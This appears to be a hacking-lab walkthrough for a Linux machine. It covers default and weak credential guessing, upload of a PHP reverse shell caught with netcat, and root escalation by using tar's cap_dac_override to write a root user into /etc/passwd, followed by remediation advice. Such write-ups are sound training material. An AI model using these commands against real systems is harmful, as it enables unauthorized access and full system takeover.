#  Web01 Dev V2 - Virtual Hacking Lab

| Info          | Details                                                                            |
| ------------- | ---------------------------------------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                                                |
| Difficulty    | Advance                                                                            |
| Target IP     | 10.11.1.6                                                                          |
| OS            | Linux                                                                              |
| Vulnerability | Default Credentials, Exposed Workspace, Weak Passwords, Misconfigured Capabilities |
| Tools Used    | Nmap, Gobuster, Dirsearch, Netcat, John the Ripper, LinPEAS                        |

## Attack Path

1. Nmap identified FTP, SSH, HTTP, and Tiny File Manager (8080).
2. Default credentials allowed access to web application.
3. Weak credentials (**admin:qwerty**) granted access to file manager.
4. PHP reverse shell uploaded and executed.
5. Gained shell as **apache**.
6. Misconfigured capability (`cap_dac_override`) identified on tar.
7. `/etc/passwd` overwritten to create root user.
8. Root access obtained.
9. Flag retrieved.

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir WEB01_DEV_V2
cd WEB01_DEV_V2
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

# Network Scanning

A full TCP scan was conducted:

```bash
ip='10.11.1.6'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



Results: Service FTP, SSH, http and Port 8080 (Tiny File Manager)
# HTTP Enumeration

Directory brute forcing:

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```

Gobuster:



Dirsearch:



Findings:
- Login panel identified on the main web application.
- No immediate vulnerabilities discovered through automated enumeration.

Webpage enumeration:



Manual credential testing was performed:

```bash
admin:password
admin::admin
```



Results: Successful authentication with: admin::admin
In the website, couldn't upload any file.
## Further Enumeration

A secondary service was identified on port **8080**.

- Tiny File Manager interface discovered.



Credential testing:

```bash
admin::admin
admin::password
admin::qwerty
```

Successfully login with admin::qwerty



Uploaded: a reverse.php which contain (PentestMonkey.php) code.

Navigate to reverse.php to trigger the exploit code.

```bash
sudo nc -lnvp 4444
```

Results: Successfully got a reverse web shell.



# Linux Privilege Escalation
```bash
# Upgrade shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Verify Users 
whoami
id
```

Results: return apache

```bash
# Check capabilities:
getcap -r / 2>/dev/null
```



Results: found tar have `cap_dac_override+ep` capabilities

```bash
mkdir -p /tmp/etc
cp /etc/passwd /tmp/etc/passwd
	
## lets overwrite /etc/passwd
openssl passwd Hacker123

## Exploit OpenSSL to overwrite `/etc/passwd`:
echo "hacker:.gKgn/TUHb3Wk:0:0:root:/root:/bin/bash" >> /tmp/etc/passwd

# Overwrite using tar
tar -cf payload.tar -C /tmp etc/passwd
tar -xf payload.tar -C /

# Verify /etc/passwd
cat /etc/passwd
```



Results: Successfully overwrite the `/etc/passwd`

```bash
# try to login to hacker user
su hacker
Hacker123
"Success"

# Verify user and permission
whoami
id
"Confirmed is root uid"

# Retrieved Flag
cat /root/key.txt
```



# Remediation

### 1. Remove Default & Weak Credentials

- Disable default accounts.
- Enforce strong passwords.
- Prevent use of weak passwords such as:

``` bash
admin  
qwerty  
password
```

---

### 2. Secure File Upload Functionality

- Restrict file uploads to safe file types.
- Prevent execution of uploaded files.
- Store uploads outside the web root.

---

### 3. Restrict Administrative Interfaces

- Limit access to services like Tiny File Manager (port 8080).    
- Use IP whitelisting or VPN access.

---

### 4. Fix Capability Misconfigurations

- Remove dangerous capabilities such as:    
	`cap_dac_override`
- Audit binaries using:
	`getcap -r /`

---

### 5. Protect Critical System Files

- Restrict write access to: `/etc/passwd`
- Ensure only root can modify system authentication files.

---

### 6. System Hardening

- Apply least privilege principle.    
- Regularly audit permissions and services.
- Remove unnecessary tools and services.    

---

### 7. Monitoring & Detection

- Log authentication attempts.    
- Detect abnormal file modifications.
- Use intrusion detection systems (IDS).